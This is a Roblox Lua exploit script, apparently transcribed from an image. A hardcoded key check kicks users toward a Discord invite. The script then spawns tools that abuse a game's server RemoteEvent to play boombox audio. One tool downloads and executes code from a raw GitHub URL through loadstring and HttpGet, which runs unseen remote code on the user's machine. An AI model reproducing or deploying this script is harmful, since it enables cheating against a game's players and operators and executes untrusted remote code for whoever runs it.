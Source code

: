 -- // Logins: // --

local Usernames = {
["bowebdevixontop"] = true;
}

local Passwords = {
["bowebdevixontop"] = true;
}


-- // Variables: // --

local Login = game.CoreGui.Login

local Key = Login.Main.WhitelistFrame.Key

local Username = Login.Main.UserFrame.UserBox

local Userpassed = false

local WLPassed = false



-- // Login Function: // --

if Usernames[Username.Text] then
Userpassed = true
else
game.Players.LocalPlayer:Kick("Wrong Key! [Join My Discord For Key] https://discord.gg/Fus6vPhJdy")
end

if Passwords[Key.Text] then
WLPassed = true
else
game.Players.LocalPlayer:Kick("Wrong Key! [Join My Discord For Key] https://discord.gg/Fus6vPhJdy")
end

if Userpassed == true then
if WLPassed == true then
for i,v in pairs(game.CoreGui:GetDescendants()) do
 if v.Name == "Main" then
  v:Destroy()
 end
end
mouse = game.Players.LocalPlayer:GetMouse()
tool = Instance.new("Tool")
tool.RequiresHandle = false
tool.Name = "hohoho"
tool.Activated:connect(function()
local pos = mouse.Hit+Vector3.new(0,2.5,0)

loadstring(game:HttpGet("https://raw.githubusercontent.com/boweb6/fffffff/main/f",true))()

-- Script generated by SimpleSpy - credits to exx#9394

local args = {
    [1] = "Boombox",
    [2] = "8819872349"
}

game:GetService("ReplicatedStorage"):FindFirstChild(".gg/untitledhood"):FireServer(unpack(args))
wait(1)
-- Script generated by SimpleSpy - credits to exx#9394

local args = {
    [1] = "BoomboxStop"
}

game:GetService("ReplicatedStorage"):FindFirstChild(".gg/untitledhood"):FireServer(unpack(args))
end)
tool.Parent = game.Players.LocalPlayer.Backpack




mouse = game.Players.LocalPlayer:GetMouse()
tool = Instance.new("Tool")
tool.RequiresHandle = false
tool.Name = "yes"
tool.Activated:connect(function()
local pos = mouse.Hit+Vector3.new(0,2.5,0)
-- Script generated by SimpleSpy - credits to exx#9394

local args = {
    [1] = "Boombox",
    [2] = "8819783960"
}

game:GetService("ReplicatedStorage"):FindFirstChild(".gg/untitledhood"):FireServer(unpack(args))
wait(0.6)
-- Script generated by SimpleSpy - credits to exx#9394

local args = {
    [1] = "BoomboxStop"
}

game:GetService("ReplicatedStorage"):FindFirstChild(".gg/untitledhood"):FireServer(unpack(args))
end)
tool.Parent = game.Players.LocalPlayer.Backpack


mouse = game.Players.LocalPlayer:GetMouse()
tool = Instance.new("Tool")
tool.RequiresHandle = false
tool.Name = "no"
tool.Activated:connect(function()
local pos = mouse.Hit+Vector3.new(0,2.5,0)
-- Script generated by SimpleSpy - credits to exx#9394

local args = {
    [1] = "Boombox",
    [2] = "8819782435"
}

game:GetService("ReplicatedStorage"):FindFirstChild(".gg/untitledhood"):FireServer(unpack(args))
wait(0.4)
-- Script generated by SimpleSpy - credits to exx#9394

local args = {
    [1] = "BoomboxStop"
}

game:GetService("ReplicatedStorage"):FindFirstChild(".gg/untitledhood"):FireServer(unpack(args))
end)
tool.Parent = game.Players.LocalPlayer.Backpack


mouse = game.Players.LocalPlayer:GetMouse()
tool = Instance.new("Tool")
tool.RequiresHandle = false
tool.Name = "ben"
tool.Activated:connect(function()
local pos = mouse.Hit+Vector3.new(0,2.5,0)
-- Script generated by SimpleSpy - credits to exx#9394

local args = {
    [1] = "Boombox",
    [2] = "8819733010"
}

game:GetService("ReplicatedStorage"):FindFirstChild(".gg/untitledhood"):FireServer(unpack(args))
wait(0.50)
-- Script generated by SimpleSpy - credits to exx#9394

local args = {
    [1] = "BoomboxStop"
}

game:GetService("ReplicatedStorage"):FindFirstChild(".gg/untitledhood"):FireServer(unpack(args))
end)
tool.Parent = game.Players.LocalPlayer.Backpack






mouse = game.Players.LocalPlayer:GetMouse()
tool = Instance.new("Tool")
tool.RequiresHandle = false
tool.Name = "ugh"
tool.Activated:connect(function()
local pos = mouse.Hit+Vector3.new(0,2.5,0)
-- Script generated by SimpleSpy - credits to exx#9394

local args = {
    [1] = "Boombox",
    [2] = "8819900535"
}

game:GetService("ReplicatedStorage"):FindFirstChild(".gg/untitledhood"):FireServer(unpack(args))
wait(0.50)
-- Script generated by SimpleSpy - credits to exx#9394

local args = {
    [1] = "BoomboxStop"
}

game:GetService("ReplicatedStorage"):FindFirstChild(".gg/untitledhood"):FireServer(unpack(args))
end)
tool.Parent = game.Players.LocalPlayer.Backpack
end
end
